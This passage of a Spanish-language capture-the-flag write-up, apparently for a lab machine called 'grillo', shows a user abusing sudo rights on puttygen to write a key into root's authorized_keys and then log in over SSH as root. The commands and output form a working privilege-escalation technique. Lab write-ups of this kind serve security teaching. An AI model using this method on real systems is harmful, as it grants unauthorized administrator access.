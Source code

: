 <br>

<h3 id="puttygen">Utilizando puttygen para Escalar Privilegios</h3>

Vamos a generar la llave privada primero, esta debe ser en formato para **OpenSSH**:
```bash
melanie@grillo:~$ puttygen -t rsa -b 4096 -O private-openssh -o id_rsa
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
+++++++++++++++++++++++++++++++++++++++++++++++++
Enter passphrase to save key: 
Re-enter passphrase to verify:
```
Recuerda bien la frase que usaste para crear la llave privada, porque la vamos a usar más adelante.

Revisando lo que se generó, tenemos la llave privada y se genera un directorio de **PuTTY**:
```bash
melanie@grillo:~$ ls -la
total 32
drwx------ 3 melanie melanie    4096 feb 11 21:26 .
drwxr-xr-x 3 root    root       4096 abr 12  2024 ..
lrwxrwxrwx 1 root    root          9 abr 12  2024 .bash_history -> /dev/null
-rw-r--r-- 1 melanie concebolla  220 abr 12  2024 .bash_logout
-rw-r--r-- 1 melanie concebolla 3526 abr 12  2024 .bashrc
-rw------- 1 melanie concebolla 3311 feb 11 21:26 id_rsa
-rw-r--r-- 1 melanie concebolla  807 abr 12  2024 .profile
drwx------ 2 melanie concebolla 4096 feb 11 21:26 .putty
-rwxrwxrwx 1 root    root         33 abr 12  2024 user.txt
```

Asignémosle los permisos correctos a la llave privada:
```bash
melanie@grillo:~$ chmod 600 id_rsa
```

Ahora, vamos a convertir esa llave privada en una llave pública, pero la guardaremos dentro del directorio `.ssh/authorized_keys` del **usuario Root**:
```bash
melanie@grillo:~$ sudo puttygen /home/melanie/id_rsa -o /root/.ssh/authorized_keys -O public-openssh
Enter passphrase to load key:
```
Listo, parece que sí se creó la llave pública.

Para comprobarlo, vamos a descargar la llave privada en nuestra máquina y le damos los permisos correctos:
```bash
scp melanie@192.168.1.100:/home/melanie/id_rsa .
melanie@192.168.1.100's password: 
id_rsa                                    100% 3311   400.6KB/s   00:00
chmod 600 id_rsa
```

Ahora, vamos a usarla para autenticarnos como **Root**:
```bash
ssh -i id_rsa root@192.168.1.100
Enter passphrase for key 'id_rsa': 
Linux grillo 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64
.
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 21 11:35:18 2024
root@grillo:~# whoami
root
```